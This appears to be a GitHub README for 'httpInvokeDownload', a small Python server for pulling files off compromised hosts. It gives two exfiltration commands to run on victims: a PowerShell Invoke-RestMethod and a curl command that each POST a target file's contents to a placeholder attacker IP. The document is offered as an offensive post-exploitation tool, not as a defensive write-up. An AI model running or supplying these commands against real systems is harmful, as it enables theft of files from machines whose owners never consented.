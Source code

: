 # httpInvokeDownload
Small Python Server used to download files from a compromised host.

Run this server, then:
- run `Invoke-RestMethod -URI http://*attacker_ip*/*vercode*/*filename* -Method Post -InFile ”*target_file*”` on compromised Windows host.

- run `curl -X POST -d "$(cat *target_file*) http://*attacker_ip*/*vercode*/*filename*` on compromised Linux host.
